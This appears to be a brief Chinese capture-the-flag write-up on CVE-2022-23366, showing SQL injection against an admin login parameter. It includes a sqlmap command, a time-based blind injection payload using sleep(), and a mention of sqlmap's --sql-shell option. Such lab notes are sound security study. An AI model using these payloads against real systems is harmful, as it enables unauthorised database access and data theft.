




# CVE-2022-23366
找到admin登录界面,抓包简单测试一下loginid=1,loginid=1',1"没有报错信息,测试是否为数字型1 and 1=2
结果只会出现

可能需要用到盲注,直接sqlmap
```
sqlmap -r /home/cryingtor/桌面/1.txt --dbs 
```

sqlmap用时间盲注跑出来
手动测试一下
```
admin'and if(database()="ctf",sleep(10),0)#
```

这里学习一下用--sql-shell参数
